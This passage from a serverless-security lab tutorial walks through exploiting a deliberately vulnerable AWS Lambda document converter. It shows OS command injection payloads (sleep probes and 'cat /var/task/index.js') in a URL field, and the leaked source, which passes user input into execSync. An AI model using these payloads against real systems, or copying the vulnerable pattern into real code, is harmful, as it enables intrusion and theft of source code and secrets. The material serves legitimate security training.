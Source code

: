 These are just a few hints to get you started.

### Lesson 2: Reverse Engineering The Lambda Function ###
The next obvious step, is to try and gain access to the source code of the Lambda function in order to reverse engineer it and discover additional weaknesses. For this step, we will try to check whether the function is vulnerable to OS command injection.

We will blindly probe for OS command injection using a common time-based probing method - i.e. by invoking the sleep shell command.

* In the URL field of the form, enter the following value in the URL field: `https://www.puresec.io/hubfs/document.doc` - this legitimate URL will return the converted text of the document
* Now try the following value: `https://www.puresec.io/hubfs/document.doc; sleep 1 #` and hit 'submit'. The function will run, albeit will return some garbled text
* Next, we will try with a really long sleep value, which will force the AWS Lambda function to hit the timeout it is configured with (default is 5 minutes): `https://www.puresec.io/hubfs/document.doc; sleep 5000 #`

Output:
Error message: ```{"message": "Internal server error"}```

Now we know that the application is vulnerable to OS command injection through the `document_url` parameter of the API, and we can move on to extract its source code, by sending the following value in the URL field: `https://foobar; cat /var/task/index.js #`

This should return the source code of the function:
```
const child_process = require('child_process'); const AWS = require('aws-sdk'); const uuid = require('node-uuid'); async function log(event) { const docClient = new AWS.DynamoDB.DocumentClient(); let requestid = event.requestContext.requestId; let ip = event.requestContext.identity.sourceIp; let documentUrl = event.queryStringParameters.document_url; await docClient.put({ TableName: process.env.TABLE_NAME, Item: { 'id': requestid, 'ip': ip, 'document_url': documentUrl } } ).promise(); } exports.handler = async (event) => { try { await log(event); let documentUrl = event.queryStringParameters.document_url; let txt = child_process.execSync(`curl --silent -L ${documentUrl} | ./bin/catdoc -`).toString(); // Lambda response max size is 6MB. The workaround is to upload result to S3 and redirect user to the file. let key = uuid.v4(); let s3 = new AWS.S3(); await s3.putObject({ Bucket: process.env.BUCKET_NAME, Key: key, Body: txt, ContentType: 'text/html', ACL: 'public-read' }).promise(); return { statusCode: 302, headers: { "Location": `${process.env.BUCKET_URL}/${key}` } }; } catch (err) { return { statusCode: 500, body: err.stack }; } };
```

There's a lot to be learned from the source code:
* The application uses the AWS DynamoDB NoSQL database
* The application uses a Node.js package called node-uuid
* The application stores sensitive user information (IP address and document URL) inside the DynamoDB table, who's name is defined in the `TABLE_NAME` environment variable
* We see the root cause behind the OS command injection - using untrusted user input in the `child_process.execSync()` call
* The output of API invocations is stored inside an S3 bucket, whose name is also stored inside an environment variable - `BUCKET_NAME`

### Lesson 3: Digging For Gold Inside Environment Variables ###
In a well secured AWS Lambda environment, users should not be able to gain access to environment variables, as these variables include sensitive information. **IMPORTANT:** It is bad practice to store sensitive information in an unencrypted manner inside environment variables.
